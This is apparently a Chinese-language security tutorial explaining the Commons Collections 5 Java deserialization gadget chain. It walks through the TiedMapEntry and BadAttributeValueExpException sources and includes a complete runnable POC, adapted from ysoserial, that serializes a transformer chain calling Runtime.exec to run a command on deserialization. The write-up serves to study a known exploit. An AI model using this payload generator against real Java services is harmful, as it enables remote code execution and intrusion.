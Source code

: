 ## 环境准备

JDK1.8(8u421)我以本地的JDK8版本为准、commons-collections(3.x 4.x均可这里使用3.2版本)

cc3.2：

```
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2</version>
</dependency>
```

## 正文

CC1攻击链：https://www.cnblogs.com/erosion2020/p/18553568

CC5是 CC1 的一个变种，CC1在JDK1.8之后对AnnotationInvocationHandler 进行了修复，使得攻击链不能被正常利用，在CC5提到的攻击链中使用了`TiedMapEntry`以及`BadAttributeValueExpException`来完成攻击链的触发。

让我们来看一下为什么通过这两个类可以完成攻击链的触发。

## TiedMapEntry

`TiedMapEntry` 是 `Commons Collections` 中的一个类，它主要用于将一个 `Map` 的键值对与其他对象绑定起来，形成一个 "绑定"（tied）关系。这个类的目的是允许 `Map` 条目（即键值对）与附加的对象（比如某些回调函数或特殊处理对象）一起存储。具体来说，`TiedMapEntry` 通过包装 `Map` 的条目，并与目标对象一起存储，来支持一些懒加载机制或触发特定的操作。

### CC5中的应用

在 **CC5（Commons Collections 5）** 的攻击链中，`TiedMapEntry` 起到了关键的“桥梁”作用。攻击者利用 `TiedMapEntry` 和 `LazyMap` 的结合来构建攻击链。

1. **`LazyMap` 的懒加载机制**：`LazyMap` 被用来延迟加载对象，攻击者通过将恶意代码与 `LazyMap` 绑定，延迟执行某些操作。`TiedMapEntry` 在这里负责将恶意的 `LazyMap` 对象和其他需要的对象绑定在一起。
2. **`TiedMapEntry` 和 `LazyMap` 配合**：攻击者可以将 `TiedMapEntry` 与 `LazyMap` 一起使用，通过访问 `LazyMap` 中的条目，来触发懒加载的恶意代码。这个过程通常是在反序列化时自动发生的。
3. **触发反序列化时的恶意操作**：当反序列化包含 `TiedMapEntry` 的对象时，访问 `TiedMapEntry` 的 `getValue()` 方法会触发与之绑定的恶意操作，最终可能执行恶意代码。

### 关键代码分析

```java
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
	......
    public Object getKey() {
        return this.key;
    }
	// action1: 会执行到这个地方
    // 最终要把Map变成一个LazyMap，那这样的话就会触发LazyMap的get方法，而LazyMap中的get方法则会触发transformer方法
    public Object getValue() {
        return this.map.get(this.key);
    }
	// action0: 重点在这个方法中，他调用了getValue方法
    public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
}
```

## BadAttributeValueExpException

`BadAttributeValueExpException` 是 `javax.management` 包中的一个类，通常用于描述与 Java Management Extensions (JMX) 相关的异常。该类的构造方法接受一个 `Object` 类型的参数 `val`，代表异常的具体值。

在安全漏洞利用中，`BadAttributeValueExpException` 常被用作反序列化攻击链的一部分。由于其 `val` 字段是可访问的，攻击者可以通过将恶意对象（例如 `TiedMapEntry`）赋值给该字段，间接触发恶意代码的执行。

### CC5中的应用

在 **CC5** 攻击链中，`BadAttributeValueExpException` 是触发攻击链的关键对象之一。攻击者通过反序列化时将 `TiedMapEntry` 或其他恶意对象设置为 `val` 字段的值，使得反序列化过程中触发恶意的代码执行。

### **CC5 攻击链的具体应用：**

1. **构造 `BadAttributeValueExpException`**：首先构造一个 `BadAttributeValueExpException` 对象，并通过反射将恶意的 `TiedMapEntry` 对象设置到 `val` 字段中。
2. **触发反序列化**：在反序列化过程中，`BadAttributeValueExpException` 的 `val` 字段会被访问，而这个字段绑定了一个 `TiedMapEntry` 对象。此时，`TiedMapEntry` 的 `getValue()` 方法被调用，从而触发 `LazyMap` 的懒加载操作。
3. **执行恶意代码**：`LazyMap` 中的 `Transformer` 链会被触发，最终执行绑定的恶意操作（如执行命令、反向连接等）。

### 关键代码分析

```java
public class BadAttributeValueExpException extends Exception   {
    private static final long serialVersionUID = -3105272988410493376L;
	// 要把val构造成一个TiedMapEntry，这样在执行反序列化方法readObject时就会触发TiedMapEntry.toString方法
    // 然后TiedMapEntry.toString方法会执行TiedMapEntry.getValue方法，然后会执行到LazyMap.get(this.key)
    // LazyMap.get方法中会调用Transformer.transformer方法，而这里的Transformer就是我们精心构造的TransformerChained
    private Object val;
    public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);
        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            // 重点是这个方法
            val = valObj.toString();
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

## 构造POC

一样，这里还是直接把ysoserial的代码转换成本地可以直接执行调试的代码

```java
public class CommonsCollections5 {
    static String serialFileName = "commons-collections5.ser";

    public static void main(String[] args) throws Exception {
        cc5byYsoSerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cc5byYsoSerial() throws Exception {
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        // 等同于ysoserial中的Reflections.setFieldValue(transformerChain, "iTransformers", transformers);写法
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        // 先创建LazyMap，用来将transformerChain包装成一个Map，当Map中的get方法被触发时就能直接触发到调用链
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);

        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(val);
        oos.flush();
        oos.close();
    }
}
```

## 调试

来弹个cmd

![image-20241119161717938](./main.assets/image-20241119161717938.png)

## 调用链

其实和CC1的调用链非常非常像，只是攻击链的触发点不一样

* ObjectInputStream.readObject()
  * BadAttributeValueExpException.readObject()
    * TiedMapEntry.toString()
      * TiedMapEntry.getValue()
        * LazyMap.get()
          * ChainedTransformer.transform()
            * ConstantTransformer.transform()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Class.getMethod()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.getRuntime()
              * InvokerTransformer.transform()
                * Method.invoke()
                * Runtime.exec()


